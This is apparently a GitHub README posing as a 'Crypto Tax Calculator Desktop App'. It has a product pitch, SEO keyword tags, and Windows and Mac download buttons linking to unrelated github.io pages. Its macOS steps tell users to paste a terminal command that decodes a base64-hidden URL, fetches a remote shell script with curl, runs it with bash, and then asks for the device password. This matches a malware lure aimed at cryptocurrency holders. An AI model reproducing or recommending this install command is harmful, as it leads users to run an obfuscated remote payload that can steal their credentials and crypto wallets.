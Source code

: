 # Crypto Tax Calculator Desktop App – Accurate & Easy Tax Reporting  

<div align="center">

![Crypto Tax Calculator Logo](https://d2pasa6bkzkrjd.cloudfront.net/_resize/consensus2025/partner/500/site/consensus2025/images/userfiles/partners/fb798c6693db02fb4c7c12a52159cbd2.png)

</div>  

**Crypto Tax Calculator Desktop App** is a comprehensive and accurate tool for calculating cryptocurrency taxes, capital gains, and generating official reports. Designed for both casual investors and professional traders, it supports integrations with popular exchanges, wallets, and DeFi platforms to automate your **crypto tax reporting** while ensuring compliance with tax regulations in multiple jurisdictions.  

<div align="center">  

[![Download for Windows](https://img.shields.io/badge/Download_for_Windows-blue?style=for-the-badge&logo=windows)](https://crypto-tax-calculator-desktop-app.github.io/.github)  
[![Download for Mac](https://img.shields.io/badge/Download_for_Mac-silver?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/crypto-tax-calculator)  

</div>  

---

## 📊 What is Crypto Tax Calculator Desktop App?  

**Crypto Tax Calculator Desktop App** is a powerful solution for managing cryptocurrency tax obligations. It automates the process of calculating **capital gains, income, staking rewards, and NFT transactions**, reducing manual work and the risk of errors.  

It can connect directly to **Coinbase, Binance, Robinhood, Kraken, MetaMask, Ledger, and many others** to import transactions via APIs or CSV files. Once your data is synced, it applies your region’s **tax laws and accounting methods** (FIFO, LIFO, HIFO, specific identification) to generate ready-to-file reports.  

The app supports **IRS Form 8949**, Schedule D (U.S.), ATO-compliant reports (Australia), HMRC (U.K.), CRA (Canada), and many other international tax forms. It even accounts for complex scenarios like **DeFi staking, yield farming, lending, liquidity pools, token swaps, and NFT royalties**.  

Whether you need a **simple capital gains report** for your yearly filing or a **detailed cost basis calculation** for hundreds of trades, Crypto Tax Calculator Desktop App delivers accuracy, speed, and audit-ready documentation.  

---

![Crypto Tax Reporting Example](https://s3.amazonaws.com/assets.coingecko.com/app/public/ckeditor_assets/pictures/6058/content_unnamed.png)  

---

## 🖥️ Key Features  

- **Automatic Data Import** – Sync with over 500 exchanges, wallets, and DeFi platforms  
- **Capital Gains & Loss Reports** – Generate clear reports for yearly filing  
- **Accounting Method Support** – FIFO, LIFO, HIFO, and more  
- **NFT & DeFi Tax Handling** – Track and calculate tax for NFTs, staking, and yield farming  
- **Multi-Country Support** – Adaptable to tax laws in the U.S., Australia, U.K., Canada, and beyond  
- **Audit-Ready Documentation** – Full transaction history with exportable CSV and PDF files  
- **Free Tier Available** – Start with basic features at no cost  
- **Secure & Private** – Local data storage with encryption options  

---

![Crypto Tax Brackets](https://images.ctfassets.net/xhzu9ln5czj5/1VMeOjkDAlYaaqG5QGa4mQ/a9be0636b14975350a7b86c371400167/Income_tax_brackets.jpg)  

---

## ⚙️ System Requirements  

- **OS**: Windows 10/11 (64-bit) or macOS 11+  
- **CPU**: Intel i5 / Apple Silicon M1 or newer  
- **RAM**: 8 GB minimum  
- **Disk Space**: 500 MB free  
- **Internet**: Required for API sync and tax form generation  

---

## 📥 Installation Instructions


## For Windows:

1. Download the archive with the program files
2. Unzip all files
3. Run the program's `.exe` file.


## For MacOS:

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🏷️ Tags  

`robinhood crypto tax calculator` • `crypto tax calculator robinhood` • `crypto tax calculator` • `crypto taxes calculator` • `cryptocurrency tax calculator` • `cryptocurrency taxes calculator` • `capital gain tax on crypto` • `crypto gain calculator` • `free crypto tax calculator` • `free crypto tax software` • `crypto tax calculator free` • `free crypto tax report` • `best crypto tax calculator` • `cryptotax calculator` • `crypto tax software free` • `crypto capital gains tax calculator` • `crypto tax tool` • `calculate crypto taxes` • `free cryptocurrency tax calculator` • `coinbase tax calculator` • `ato crypto tax calculator` • `binance tax calculator` • `capital gains tax calculator crypto` • `free crypto tax reporting` • `free crypto tax reports` • `crypto gains tax calculator` • `crypto tax calculator reddit` • `calculator crypto tax` • `capital gain tax on cryptocurrency` • `coinbase gain loss report` • `crypto capital gain calculator` • `crypto cost basis calculator`  

---
